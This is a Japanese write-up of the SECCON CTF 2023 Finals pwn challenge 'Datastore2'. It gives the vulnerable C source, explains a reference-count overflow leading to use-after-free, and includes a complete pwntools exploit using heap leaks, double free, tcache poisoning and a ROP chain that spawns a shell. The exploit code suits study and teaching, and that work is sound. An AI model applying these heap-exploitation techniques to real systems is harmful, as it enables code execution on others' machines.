



# SECCON CTF 2023 Finals `Datastore2 [pwn]` writeup

## 問題
`nc datastore2.dom.seccon.games 7352`

実行ファイル、ソースコードとlibcがもらえる。

```c
#include <stdio.h>
#include <stdint.h>
#include <stdbool.h>
#include <stdlib.h>
#include <unistd.h>
#include <string.h>

typedef enum {
        TYPE_EMPTY = 0,
        TYPE_ARRAY = 0xfeed0001,
        TYPE_STRING,
        TYPE_UINT,
        TYPE_FLOAT,
} type_t;

typedef struct {
        type_t type;

        union {
                struct Array *p_arr;
                struct String *p_str;
                uint64_t v_uint;
                double v_float;
        };
} data_t;

typedef struct Array {
        size_t count;
        data_t data[];
} arr_t;

typedef struct String {
        uint8_t ref;
        size_t size;
        char *content;
} str_t;

static int create(data_t *data);
static int edit(data_t *data);
static int show(data_t *data, unsigned level, bool recur);
static int remove_recursive(data_t *data);
static int duplicate_recursive(data_t *dst, data_t *src);
static int getnline(char *buf, int size);
static int getint(void);
static double getfloat(void);

__attribute__((constructor))
static int init(){
        alarm(60);
        setbuf(stdin, NULL);
        setbuf(stdout, NULL);
        return 0;
}

int main(void){
        data_t *root = (data_t*)calloc(1, sizeof(data_t));

        for(;;){
                printf("\nMENU\n"
                                "1. Edit\n"
                                "2. List\n"
                                "0. Exit\n"
                                "> ");

                switch(getint()){
                        case 1:
                                edit(root);
                                break;
                        case 2:
                                puts("\nList Data");
                                show(root, 0, true);
                                break;
                        default:
                                goto end;
                }
        }

end:
        puts("Bye.");
        return 0;
}

static int create(data_t *data){
        if(!data || data->type != TYPE_EMPTY)
                return -1;

        printf("Select type: [a]rray/[v]alue\n"
                   "> ");

        char t;
        scanf("%c%*c", &t);
        if(t == 'a') {
                printf("input size: ");
                size_t count = getint();
                if(count > 0x8){
                        puts("too big!");
                        return -1;
                }

                arr_t *arr = (arr_t*)calloc(1, sizeof(arr_t)+sizeof(data_t)*count);
                if(!arr)
                        return -1;
                arr->count = count;

                data->type = TYPE_ARRAY;
                data->p_arr = arr;
        }
        else {
                char *buf, *endptr;

                printf("input value: ");
                scanf("%70m[^\n]%*c", &buf);
                if(!buf){
                        getchar();
                        return -1;
                }

                uint64_t v_uint = strtoull(buf, &endptr, 0);
                if(!endptr || !*endptr){
                        data->type = TYPE_UINT;
                        data->v_uint = v_uint;
                        goto fin;
                }

                double v_float = strtod(buf, &endptr);
                if(!endptr || !*endptr){
                        data->type = TYPE_FLOAT;
                        data->v_float = v_float;
                        goto fin;
                }

                str_t *str = (str_t*)malloc(sizeof(str_t));
                if(!str){
                        free(buf);
                        return -1;
                }
                str->ref = 1;
                str->size = strlen(buf);
                str->content = buf;
                buf = NULL;

                data->type = TYPE_STRING;
                data->p_str = str;

fin:
                free(buf);
        }

        return 0;
}

static int edit(data_t *data){
        if(!data)
                return -1;

        printf("\nCurrent: ");
        show(data, 0, false);

        switch(data->type){
                case TYPE_ARRAY:
                        {
                                arr_t *arr = data->p_arr;

                                printf("index: ");
                                unsigned idx = getint();
                                if(idx >= arr->count)
                                        return -1;

                                printf("\n"
                                                "1. Update\n"
                                                "2. Delete\n"
                                                "3. Copy\n"
                                                "> ");

                                switch(getint()){
                                        case 1:
                                                edit(&arr->data[idx]);
                                                break;
                                        case 2:
                                                remove_recursive(&arr->data[idx]);
                                                break;
                                        case 3:
                                                {
                                                        printf("dest index: ");
                                                        unsigned dst_idx = getint();
                                                        if(dst_idx >= arr->count)
                                                                return -1;

                                                        duplicate_recursive(&arr->data[dst_idx], &arr->data[idx]);
                                                }
                                                break;
                                }
                        }
                        break;
                case TYPE_STRING:
                case TYPE_UINT:
                case TYPE_FLOAT:
                        remove_recursive(data);
                default:
                        create(data);
                        break;
        }

        return 0;
}

static int remove_recursive(data_t *data){
        if(!data)
                return -1;

        switch(data->type){
                case TYPE_ARRAY:
                        {
                                arr_t *arr = data->p_arr;
                                for(int i=0; i<arr->count; i++)
                                        if(remove_recursive(&arr->data[i]))
                                                return -1;
                                free(arr);
                                data->p_arr = NULL;
                        }
                        break;
                case TYPE_STRING:
                        {
                                str_t *str = data->p_str;
                                if(--str->ref < 1){
                                        free(str->content);
                                        free(str);
                                }
                                data->p_str = NULL;
                        }
                        break;
        }
        data->type = TYPE_EMPTY;

        return 0;
}

static int duplicate_recursive(data_t *dst, data_t *src){
        if(!src || !dst || dst->type != TYPE_EMPTY)
                return -1;

        switch(src->type){
                case TYPE_ARRAY:
                        {
                                arr_t *arr = src->p_arr;
                                size_t sz = sizeof(arr_t)+sizeof(data_t)*arr->count;
                                arr_t *new = (arr_t*)malloc(sz);
                                if(!new)
                                        return -1;
                                memcpy(new, arr, sz);

                                for(int i=0; i<arr->count; i++){
                                        switch(arr->data[i].type){
                                                case TYPE_ARRAY:
                                                case TYPE_STRING:
                                                        new->data[i].type = TYPE_EMPTY;
                                                        if(duplicate_recursive(&new->data[i], &arr->data[i]))
                                                                return -1;
                                        }
                                }

                                dst->type = TYPE_ARRAY;
                                dst->p_arr = new;
                        }
                        break;
                case TYPE_STRING:
                        src->p_str->ref++;
                default:
                        memcpy(dst, src, sizeof(data_t));
        }

        return 0;
}

static int show(data_t *data, unsigned level, bool recur){
        if(!data)
                return -1;

        switch(data->type){
                case TYPE_EMPTY:
                        puts("<EMPTY>");
                        break;
                case TYPE_ARRAY:
                        {
                                arr_t *arr = data->p_arr;
                                printf("<ARRAY(%ld)>\n", arr->count);
                                if(recur || !level)
                                        for(int i=0; i<arr->count; i++){
                                                printf("%*s", level*4, "");
                                                printf("[%02d] ", i);
                                                if(show(&arr->data[i], level+1, recur))
                                                        return -1;
                                        }
                        }
                        break;
                case TYPE_STRING:
                        {
                                str_t *str = data->p_str;
                                printf("<S> %.*s\n", (int)str->size, str->content);
                        }
                        break;
                case TYPE_UINT:
                        printf("<I> %ld\n", data->v_uint);
                        break;
                case TYPE_FLOAT:
                        printf("<F> %lf\n", data->v_float);
                        break;
                default:
                        puts("<UNKNOWN>");
                        exit(1);
        }

        return 0;
}

static int getnline(char *buf, int size){
        int len;

        if(size <= 0 || (len = read(STDIN_FILENO, buf, size-1)) <= 0)
                return -1;

        if(buf[len-1]=='\n')
                len--;
        buf[len] = '\0';

        return len;
}

static int getint(void){
        char buf[0x10] = {};

        getnline(buf, sizeof(buf));
        return atoi(buf);
}

static double getfloat(void){
        char buf[0x10] = {};

        getnline(buf, sizeof(buf));
        return atof(buf);
}
```

## 解法
```
$ checksec chall
[*] '/home/caffeine/ctf/2023/seccon23finals/pwn/datastore2/chall'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

防御機構は当然フルアーマー。

予選で見たDatastore1の進化系。
要素をコピーする機能が追加されている。

詳しく見てみると、配列や整数は基本的に`memcpy()`で実体を複製を作るのに対して、文字列の場合は`str_t`へのポインタを複製している。`str_t`には参照数を管理する変数`ref`が追加され、
  
+ コピーされると+1
+ 削除されると-1
+ 削除されて参照数が0になったタイミングで文字列の実体と`str_t`をfree

という設計になっている。

この変数`ref`がオーバーフローを考慮していない点が脆弱性。`ref`は`uint8_t`型で宣言されているので`str_t`を256回コピーすると`str_t->ref`は0になる。ここからもう一度コピー -> 削除と操作すると、参照数が1 -> 0と変化してfreeされる。実際にはコピーした256個のポインタが削除されず残っているのでdangling pointerとなる。

### heap leak
上述の操作をするとデータ構造は以下のようになる。
(contentのチャンクサイズは入力文字列の長さによって異なる)



`str_t`はfreeされた後もcontentへのポインタが初期化されない。
残っている256個のポインタから文字列を`show()`することでheap leakが可能である。

### AAW
入力文字列が入るチャンクをunsorted binに繋ぐことができればheap leakと同じやり方でlibc leakを達成できそうである。
しかしながら、実際には文字列は70 bytesまでしか入力できずこれをunsorted binに繋ぐことは難しい。

ここで、サイズ0x20 bytesのチャンク`Freed str_t`を再確保して`str_t->content`を直接書き換えられれば任意アドレス読み出しが可能であることに気づく。
長さ1(chunk_size=0x20)の`arr_t`としてこれを取り出し`arr_t->data[0]`を`UINT`としてupdateすることで`str_t->content`を自由に書き換えられる。

長さ9(chunk_size=0x90)の`arr_t`を大量に確保->freeすることで、tcacheを埋め尽くした後にチャンクをunsorted binに繋ぐことができる。このチャンクに`str_t->content`を向けることでlibcのアドレスが、libc内のシンボル`environ`からstackのアドレスが手に入る。

気を付けなければならないこととして、`arr_t`を新規に作成する際はtcacheからチャンクが取り出されない。
これは`calloc()`でメモリを割り当てているためである。
対策として

+ `Freed str_t`をfastbinに繋いで`calloc()`で取り出せるようにする。
+ 新規作成(update)ではなくコピー(copy)操作で長さ1の配列を確保する。(`arr_t`のコピーでは、複製先のメモリが`malloc()`で取られる)

などの工夫が必要である。

### double free
<sup>
AAWが達成できたのであとはAARでexploitをメモリ上に配置するだけであるが、本番中はここから先ができなかった。
手を動かす時間が足りなかったこと、ハマってしまったポイントがあったことが敗因。
もっとつよつよになりたいです。。。
</sup>

AARの他に`Freed str_t`を`arr_t`として再確保すると嬉しいことがある。
容易にdouble freeが達成できる点である。



残った256個のポインタのうち1つを削除しようとすると`arr_t`を`ref=1`の`str_t`と誤認して`arr_t->v_uint`をfreeする。
double freeが手に入り、tcache poisoningに繋げることでAAWが実現できそうである。

GLIBCのバージョンが新しいため、実際にはtcache上でdouble freeしようとするとkeyにより検知される。fastbinでdouble freeを作る等の工夫が必要。

### tcache poisoning - > fake `arr_t` copy -> ROP injection
あとはやるだけ。tcache poisoningを使ってstack上にあるmainからのリターンアドレスをROP chainで上書きする。

…そう思ってました。**この方法ではおそらくROP chainを注入できません**

ROP chainをやる以上、自由度の高い書き込みが必要になるため`arr_t`などの構造体ではなく`TYPE_STRING`の`content`としてtcacheからアドレスをもらう必要がある。`content`の標準入力は`scanf("%70m[^\n]%*c", &buf)`で実装されており

1. バッファとしてheap上にsize=0x70のチャンクを用意する
2. 入力文字列の長さに応じてチャンクサイズをいい感じにリサイズ
3. 余ったメモリ領域をfree

といったような挙動になっている。

やってみるとtcache poisoningでtcache[0x70]にstackのアドレスを繋げて`TYPE_STRING`の新規作成でこれを取り出すことには成功したが、ROP chainを入力したところで`realloc(): invalid old size`なるエラーが出て落ちてしまった。

チャンクをリサイズする都合上、heap feng shuiにうるさいようである。
heap feng shuiをどうにか突破できないか、暫くガチャガチャしていたが断念。
`content`の入力以外でstack上にROPを配置する方法を検討することに。

--

ROP chainをheap上に配置して、これを`arr_t`としてコピー->stackのアドレスにペーストすれば実現できそうだと気づく。
冒頭で少し触れた通り、`arr_t`のコピーは`arr_t->data[]`に`type_t=TYPE_STRING`が含まれない限りは`memcpy()`である。`type_t`で定義されたいずれの型にも当てはまらない場合でもコピーしてくれるうえ、コピー先のメモリは`malloc()`で取ってくるためheap feng shuiをあまり意識する必要もなさそうである。(0x10 bytesのアライメントくらい)

上記の考察から

0. チャンクサイズ0x70の`arr_t`と`arr_t`を偽装したROP chainを予めheapに書いておく。
1. tcache poisoningでチャンクサイズ0x70の`arr_t`と重なるように`content`を取ってくる。(既存のチャンクに重ねて取ればheap feng shuiで怒られることはない)
2. `content`への入力で`arr_t->data[0]->type=TYPE_ARRAY`、`arr_t->data[0]->*p_arr=(ROP chain addr.)`となるようにサイズ0x70の`arr_t`を書き換える。
3. double free -> tcache poisoningをもう一度やるなどしてmainのリターンアドレスが書いてあるアドレスをtcacheに繋げる。
4. ROP chainを`arr_t`としてコピーすることでROP chainを仕込む。
5. mainを出てROP chainを発火させる。

でシェルを取れることが分かる。



## Exploit
上記手順3でdouble free -> tcache poisoningをもう一度やるのが面倒だったため、overlapping chunkを用意してtcacheに繋がれたチャンクのfdを直接書き換えている。

```py
from pwn import *
import sys

elf = ELF("chall_patched")
libc = ELF("libc.so.6")

io = process(elf.path, timeout=3)
# io = remote('babyheap-1970.dom.seccon.games', 9999)

context.log_level = 'info'
context.arch = 'amd64'
context.terminal = ['tmux', 'splitw', '-h', '-F' '#{pane_pid}', '-P']

# gdb.attach(io)

# - define functions - #
def select_edit():
	io.sendlineafter(b"Exit\n> ", b"1")

def type_is_ARRAY():
	io.recvuntil(b'Current: <')
	return io.recv(5) == b'ARRAY'

def update_array(idx_array: list, sz: int):
	select_edit()
	traverse(idx_array)
	if type_is_ARRAY():
		log.warn('ARRAY type cannot be updated.')
		return
	io.sendlineafter(b'> ', b'a')
	io.sendlineafter(b'size: ', str(sz).encode())

def update_value(idx_array: list, val):
	select_edit()
	traverse(idx_array)
	if type_is_ARRAY():
		log.warn('ARRAY type cannot be updated.')
		return
	io.sendlineafter(b'> ', b'v')
	io.sendlineafter(b'value: ', val)

def delete(idx_array: list):
	select_edit()
	traverse(idx_array[:-1])
	if not type_is_ARRAY():
		log.warn('Cannnot continue to traverse the tree.')
		return
	io.sendlineafter('index: ', str(idx_array[-1]).encode())
	io.sendlineafter(b'> ', b'2')

def copy(idx_array: list, dst_idx: int):
	select_edit()
	traverse(idx_array[:-1])
	if not type_is_ARRAY():
		log.warn('Cannnot continue to traverse the tree.')
		return
	io.sendlineafter('index: ', str(idx_array[-1]).encode())
	io.sendlineafter(b'> ', b'3')
	io.sendlineafter(b'index: ', str(dst_idx).encode())

def traverse(idx_array: list):
	if len(idx_array) == 0:
		return
	if type_is_ARRAY():
		io.sendlineafter('index: ', str(idx_array[0]).encode())
		io.sendlineafter(b'> ', b'1')
		traverse(idx_array[1:])

def select_list():
	io.sendlineafter(b"> ", b"2")


# - str_t.ref overflow - #
update_array([], 8)
update_array([0], 8)
for i in range(8):
	if i == 0:
		update_array([0, 0], 8)
	else:
		copy([0, 0], i)
		continue
	for j in range(8):
		if j == 0:
			update_array([0, 0, 0], 8)
		else:
			copy([0, 0, 0], j)
			continue
		for k in range(8):
			if k == 0:
				update_array([0, 0, 0, 0], 8)
			else:
				copy([0, 0, 0, 0], k)
				continue
			for l in range(4):
				if l == 0:
					update_value([0, 0, 0, 0, 0], b'hoge')
				else:
					copy([0, 0, 0, 0, 0], l)
					continue


# - heap leak - # 
copy([0, 0, 0, 0, 0], 4)
delete([0, 0, 0, 0, 4])
select_list()
io.recvuntil(b"[00] <S> ")
r = io.recv(5) + b"\x00\x00\x00"
io.recvuntil(b'MENU')
heap_addr = u64(r) << 12
victim_chunk_addr = heap_addr + 0x5f0
log.info(f'heap addr: {hex(heap_addr)}')

def safe_link(dst_addr: int, src_addr: int = heap_addr):
	return dst_addr ^ (src_addr >> 12)


# - prepare AAW - #
update_value([0, 0, 0, 0, 4], b'hoge')
idx_array = [] 
for i in range(8):
	update_array([1] + idx_array, 1)
	update_array([2] + idx_array, 8)
	idx_array.append(0)
delete([1]) # fill tcache[0x20]
delete([2]) # fill tcache[0x90] and one of them is linked to unroted bin
delete([0, 0, 0, 0, 4]) # fastbin[0x20] -> victim chunk -> ...
update_array([1], 1)

def AAR(addr: int):
	update_value([1, 0], str(addr).encode())
	select_list()
	io.recvuntil(b"[00] <S> ")
	return io.recvline(keepends=False)


# - libc leak - #
r = AAR(heap_addr + 0x14df0)
libc.address = u64(r.ljust(8, b'\x00')) - 0x219ce0
log.info(f'libc addr: {hex(libc.address)}')


# - stack leak - #
r = AAR(libc.sym["environ"])
return_addr = u64(r.ljust(8, b'\x00')) - 0x120
log.info(f'return addr @ {hex(return_addr)}')
aaw_addr = return_addr - 0x8


# - double free - #
update_value([1, 0], str(heap_addr + 0x15430).encode())
idx_array = []
for i in range(9):
	update_array([2] + idx_array, 6)
	idx_array.append(0)
delete([2]) # connect two chunks to fastbin[0x70]
delete([0, 0, 0, 0, 3]) # double free in fastbin[0x70]


# - prepare ROP chain as arr_t - #
p = p64(5) # arr_t->count
p += p64(next(libc.search(asm('pop rdi; ret'), executable=True))) # ROP chain as arr_t->data[]
p += p64(next(libc.search(b'/bin/sh\x00')))
p += p64(next(libc.search(asm('pop rsi; ret'), executable=True)))
p += p64(0)
p += p64(next(libc.search(asm('pop rdx; ret'), executable=True)))
p += p64(0)
# p += p64(next(libc.search(asm('ret'), executable=True)))
p += p64(libc.sym["do_system"] + 2)
update_value([2], p)

# - prepare fake chunk - #
p = b'A' * 0x8
p += p64(0x71)
p += p64(0)
p += p64(0x61)
update_value([3], p)
p = b'A' * 0x8 + p64(0x61)
update_value([4], p)


# tcache poisoning
for i in range(4):
	update_value([5], b'hoge') # empty tcache[0x70]

update_value([5], p64(safe_link(heap_addr + 0x157b0, src_addr = heap_addr + 0x15430))) # overwrite fd
update_value([6], b'hoge')
update_value([6], b'hoge')
update_array([6], 6) # arr_t to be rewritten


# - overwrite arr_t - #
rop_chain_addr = heap_addr + 0x154a0
overwrapping_chunk_addr = heap_addr + 0x15520

p = p64(4) # arr_t->count
p += p64(0xfeed0001) # arr_t->data[00]
p += p64(rop_chain_addr)
p += p64(0xfeed0001) # arr_t->data[01]
p += p64(overwrapping_chunk_addr)
p += p64(0xfeed0001) # arr_t->data[02]
p += p64(overwrapping_chunk_addr + 0x10)
p += p64(0) # arr_t->data[03]
update_value([7], p)


# - tcache poisoning - #
update_array([6, 3], 5)
delete([6, 3])
delete([6, 2])
delete([6, 1])
update_value([6, 1], b'A' * 8 + p64(0x61) + p64(safe_link(aaw_addr, src_addr = overwrapping_chunk_addr + 0x10)))
copy([6, 0], 2)
copy([6, 0], 3) # put ROP chain in the stack

io.sendlineafter(b'> ', b'0') # Bye

io.interactive()
```